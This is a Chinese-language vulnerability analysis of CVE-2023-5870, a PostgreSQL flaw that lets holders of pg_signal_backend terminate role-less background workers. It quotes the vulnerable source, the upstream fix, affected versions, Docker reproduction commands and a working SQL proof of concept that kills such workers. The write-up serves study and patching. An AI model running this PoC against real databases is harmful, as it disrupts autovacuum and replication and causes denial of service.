



# CVE-2023-5870 CWE-400 PostgreSQL DoS

## 漏洞背景

- **PostgreSQL：**PostgreSQL 是一个开源、功能强大的对象关系型数据库管理系统，广泛应用于 Web 开发、数据分析和企业级应用。它支持 ACID 事务、复杂查询、全文搜索和多版本并发控制（MVCC），确保高并发和数据一致性。PostgreSQL 提供了扩展性，允许用户自定义数据类型、函数和索引，还支持 JSON 和地理空间数据。
- **后台工作线程（Background Worker）：** PostgreSQL 除普通客户端会话外的特殊进程，由核心系统（如 autovacuum launcher、logical replication launcher）或扩展注册启动，用于在后台执行维护任务、复制、调度等长期工作；它们通常不隶属于具体数据库角色（`usesysid` 为 NULL），由 postmaster 统一管理与拉起，如果异常退出会被自动重启。
- **pg_signal_backend ：** PostgreSQL 内置的一个特殊角色，成员被允许向其他后端进程发送控制信号（如通过 `pg_cancel_backend` 取消查询、`pg_terminate_backend` 终止会话），通常用于运维或监控场景；但它并非超级用户，权限范围应仅限于安全的信号操作，一旦检查不严，就可能被滥用对后台关键进程发信号而导致拒绝服务。
- **pg_cancel_backend(pid) 方法：** 向指定的后端进程发送 **SIGINT 信号**，该信号不会直接杀掉进程，而是触发后端在执行循环中检查到取消标志，从而以 `ERROR: canceling statement due to user request` 的形式中止当前正在运行的 SQL 语句，会话本身仍保持连接，因此常用于取消耗时查询而不影响用户重新提交请求。
- **CWE-400（Uncontrolled Resource Consumption）：** 应用程序未能有效限制对关键资源（如 CPU、内存、磁盘、带宽、进程句柄等）的消耗，攻击者可通过构造大量或恶意请求让系统过载，导致性能严重下降或服务不可用，这类问题通常表现为 拒绝服务（DoS）。

## 漏洞原理

PostgreSQL 提供了一个 `pg_cancel_backend()` 函数（以及类似的 `pg_terminate_backend()`），用于允许用户向特定会话或后台进程发送信号，以便取消正在运行的查询。通常情况下，这个权限只授予 超级用户 以避免误用。由于 PostgreSQL 的权限检查存在缺陷，导致拥有 `pg_signal_backend` 的高权限用户可以对 autovacuum、逻辑复制等后台进程任意发送终止信号，从而诱发进程退出或反复重启，形成拒绝服务（DoS）。

## 漏洞定位

分析 PostgreSQL 15.0 源码：

在 src/backend/storage/ipc/signalfuncs.c 文件，第 49 行 `pg_signal_backend`函数用于根据 PID 找到对应的 PostgreSQL 进程控制块，并安全地把信号转发给后台或会话进程。

其中第 78 行只在**目标进程归属超级用户**时收紧权限。但很多后台工作线程/启动器（如 **autovacuum launcher、logical replication launcher**，以及不少扩展的 background worker）在 `PGPROC` 中**没有绑定普通数据库角色**，其 `proc->roleId == InvalidOid`（等价于 `usesysid IS NULL`）。对这类“**无角色**”目标，上述判断为 **false**（不是“超级用户拥有”），从而**不会触发超管限制**。

紧接着在第 82 行第二道闸门允许“拥有 `ROLE_PG_SIGNAL_BACKEND` 的非超用户”发信号。**非超级用户但具 `pg_signal_backend` 能力**可以任意给这些“无角色”的后台进程发 `SIGTERM/SIGINT`，导致其退出并形成**功能性 DoS**（被 postmaster 拉起前的不可用窗口；若反复打信号可造成持续 DoS）。

```c
// signalfuncs.c 文件，第 49 行
pg_signal_backend(int pid, int sig)
{
	PGPROC	   *proc = BackendPidGetProc(pid);

	if (proc == NULL)
	{
		ereport(WARNING,
				(errmsg("PID %d is not a PostgreSQL backend process", pid)));

		return SIGNAL_BACKEND_ERROR;
	}

    // ***** 78 行 ***** 仅对“超级用户拥有的会话(backend)”加超管限制 ***** ⚠️漏洞点 *****
	if (superuser_arg(proc->roleId) && !superuser())
		return SIGNAL_BACKEND_NOSUPERUSER;

	// ***** 82 行 ***** 拥有 ROLE_PG_SIGNAL_BACKEND 的非超用户发信号 *****
	if (!has_privs_of_role(GetUserId(), proc->roleId) &&
		!has_privs_of_role(GetUserId(), ROLE_PG_SIGNAL_BACKEND))
		return SIGNAL_BACKEND_NOPERMISSION;

#ifdef HAVE_SETSID
	if (kill(-pid, sig))
#else
	if (kill(pid, sig))
#endif
	{
		/* Again, just a warning to allow loops */
		ereport(WARNING,
				(errmsg("could not send signal to process %d: %m", pid)));
		return SIGNAL_BACKEND_ERROR;
	}
	return SIGNAL_BACKEND_SUCCESS;
}
```

## 漏洞修复

把“**无角色（InvalidOid）**”的目标也纳入“**仅超级用户可信号**”的集合

```c
/*
 * Only allow superusers to signal superuser-owned backends.  Any process
 * not advertising a role might have the importance of a superuser-owned
 * backend, so treat it that way.
 */
if ((!OidIsValid(proc->roleId) || superuser_arg(proc->roleId)) &&
    !superuser())
    return SIGNAL_BACKEND_NOSUPERUSER;
```

## 影响范围

**影响版本：**PostgreSQL：

- 11.0 to 11.21
- 12.0 to 12.16
- 13.0 to 13.12
- 14.0 to 14.9
- 15.0 to 15.4

## 环境搭建

启动 Docker 环境，PostgreSQL 版本为 15.0，管理员为 postgres，密码为 postgres，已存在数据库 test。

```txt
NIST:NVD   Base Score:4.3 MEDIUM   Vector:CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:L/A:N

CNA:Red Hat, Inc.   Base Score:3.1 LOW    Vector:CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:N/I:L/A:N
```

```txt
cpe:2.3:a:postgresql:postgresql:15.0:*:*:*:*:*:*:*
```



## 漏洞复现

1. 使用 postgres 用户身份连接容器中的 PostgreSQL 的数据库 test 并运行 PoC 文件。Step 5 返回 0 行，表示目标在查询时确实不在 `pg_stat_activity`（已被终止）。

   ```bash
   docker exec -it postgres-15.0 psql -U postgres -d test -f CVE-2023-5870-PoC.sql
   ```

   
2. 查看容器日志，可以看到 LR 启动器被成功终止，成功造成功能性 DoS。

   ```bash
   docker logs postgres-15.0 
   ```

   

## PoC分析

```sql
CREATE OR REPLACE FUNCTION terminate_nothrow(pid int) RETURNS bool
LANGUAGE plpgsql SECURITY DEFINER SET client_min_messages = error AS $$
BEGIN
  RETURN pg_terminate_backend($1);
EXCEPTION WHEN OTHERS THEN
  RETURN false;
END$$;

ALTER FUNCTION terminate_nothrow OWNER TO pg_signal_backend;

SET ROLE signal_user;
SELECT backend_type
FROM pg_stat_activity
WHERE CASE WHEN COALESCE(usesysid, 10) = 10 THEN terminate_nothrow(pid) END;
RESET ROLE;
```

创建 terminate_nothrow 函数，使用 SECURITY DEFINER 包装，即以**函数所有者**的身份执行函数体（而非调用者）。然后把 `pg_terminate_backend(pid)` 包成**不抛错**的布尔函数（失败返回 `false`），便于在 `WHERE` 子句里调用。

函数所有者被设置为 `pg_signal_backend`，那么**非超用户**调用该函数时就“借壳”拥有了发信号的能力。

之后利用 `COALESCE(usesysid,10)=10` 来选择 **“无角色（usesysid IS NULL）”** 的目标（这恰好覆盖了 launcher/多数后台 worker）。在 `WHERE` 里调用 `terminate_nothrow(pid)` 实际**对命中的每个 PID 发信号**。

## 参考链接

[NVD - CVE-2023-5870](https://nvd.nist.gov/vuln/detail/CVE-2023-5870)

[Ban role pg_signal_backend from more superuser backend types. · postgres/postgres@3a9b18b](https://github.com/postgres/postgres/commit/3a9b18b3095366cd0c4305441d426d04572d88c1#diff-31e00d5e45bc257711547428e70409549588c73a57cb3676302efa26d24303de)
